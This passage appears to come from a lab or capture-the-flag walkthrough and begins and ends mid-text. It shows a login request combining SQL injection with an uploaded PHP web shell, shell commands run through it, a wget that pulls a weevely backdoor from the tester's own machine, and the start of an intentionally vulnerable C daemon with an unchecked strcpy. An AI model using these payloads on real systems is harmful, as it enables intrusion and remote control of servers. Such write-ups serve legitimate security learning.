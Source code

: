 username=testa&password=test' or '2'='2&sig=<?php system($_REQUEST['cmd']); ?>&fname=x.php&submit=Submit
{% endcodeblock %}

Now we have a simple PHP shell:
{% codeblock %}
http://192.168.80.143/profiles/testa-x.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endcodeblock %}

We download the weevely.php from our server and connect:
{% codeblock %}
http://192.168.80.143/profiles/testa-x.php?cmd=wget 192.168.80.137/weevely.php.txt -O c.php
root@kali32:~# weevely http://192.168.80.143/profiles/c.php 1234
{% endcodeblock %}

In the repo directory, we examine the buffd.c. It is a vulnerable daemon,
listening on port 7777.
{% codeblock lang:c %}
debian:/tmp# cat /var/www/repo/buffd.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>
#include <arpa/inet.h>
#include <sys/wait.h>
#include <signal.h>

#define PORT "7777" // the port users will be connecting to

#define BACKLOG 10       // how many pending connections queue will hold

void vulnerable(char *net_buffer)
{
char local_buffer[120];
strcpy(local_buffer, net_buffer);
return;
}

void sigchld_handler(int s)
{
while(waitpid(-1, NULL, WNOHANG) > 0);
}

// get sockaddr, IPv4 or IPv6:
void *get_in_addr(struct sockaddr *sa)
{
if (sa->sa_family == AF_INET) {
return &(((struct sockaddr_in*)sa)->sin_addr);
}
